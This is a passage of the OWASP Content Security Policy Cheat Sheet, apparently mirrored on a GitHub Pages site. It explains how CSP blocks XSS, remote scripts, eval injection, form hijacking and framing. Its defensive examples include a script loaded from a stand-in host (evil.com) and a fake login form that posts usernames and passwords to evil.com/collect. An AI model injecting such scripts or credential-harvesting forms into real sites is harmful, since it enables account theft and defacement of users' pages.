

repository: Raw2Crawl/Raw2Crawl.github.io · page: en/OWASP/CheatSheetSeries/cheatsheets/Content_Security_Policy_Cheat_Sheet.html · generator: mkdocs

# Content Security Policy Cheat Sheet

## Introduction

This article brings forth a way to integrate the __defense in depth__ concept to the client-side of web applications. By injecting the Content-Security-Policy (CSP) headers from the server, the browser is aware and capable of protecting the user from dynamic calls that will load content into the page currently being visited.

## Context

The increase in XSS (Cross-Site Scripting), clickjacking, and cross-site leak vulnerabilities demands a more __defense in depth__ security approach.

### Defense against XSS

CSP defends against XSS attacks in the following ways:

#### 1. Restricting Inline Scripts

By preventing the page from executing inline scripts, attacks like injecting

```html
<script>document.body.innerHTML='defaced'</script>
```

 will not work.

#### 2. Restricting Remote Scripts

By preventing the page from loading scripts from arbitrary servers, attacks like injecting

```html
<script src="https://evil.com/hacked.js"></script>
```

will not work.

#### 3. Restricting Unsafe JavaScript

By preventing the page from executing text-to-JavaScript functions like `eval`, the website will be safe from vulnerabilities like the this:

```js
// A Simple Calculator
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);
```

#### 4. Restricting Form submissions

By restricting where HTML forms on your website can submit their data, injecting phishing forms won't work either.

```html
<form method="POST" action="https://evil.com/collect">
<h3>Session expired! Please login again.</h3>
<label>Username</label>
<input type="text" name="username"/>

<label>Password</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>
```

#### 5. Restricting Objects

And by restricting the HTML [object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object) tag, it also won't be possible for an attacker to inject malicious flash/Java/other legacy executables on the page.

### Defense against framing attacks

Attacks like clickjacking and some variants of browser side-channel attacks (xs-leaks) require a malicious website to load the target website in a frame.

Historically the `X-Frame-Options` header has been used for this, but it has been obsoleted by the `frame-ancestors` CSP directive.
